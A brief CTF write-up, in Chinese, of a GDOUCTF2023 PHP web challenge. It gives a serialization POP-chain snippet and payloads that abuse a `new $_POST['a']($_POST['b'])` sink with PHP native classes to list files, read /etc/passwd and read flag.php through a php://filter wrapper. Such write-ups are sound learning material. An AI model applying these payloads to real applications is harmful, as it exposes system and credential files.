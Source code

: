 tags:: CTFWEB/PHP/原生类, CTFWEB/WP/GDOUCTF2023

- > 复现
- # POP
	- ```php
	  $t = new teacher("ing", "department");
	  $c = new classroom("one class", $t);
	  $s = new school($c, "ong");
	  
	  echo urlencode(base64_encode(serialize($s)));
	  ```
- # 利用原生类
	- 利用点：`echo new $_POST['a']($_POST['b']);`
	- `a=DirectoryIterator&b=glob://f*`看到flag.php
	- `a=SplFileObject&b=/etc/passwd`可以读取文件的第一行
	- `a=SplFileObject&b=php://filter/read=convert.base64-encode/resource=/proc/self/cwd/flag.php`利用伪协议读取文件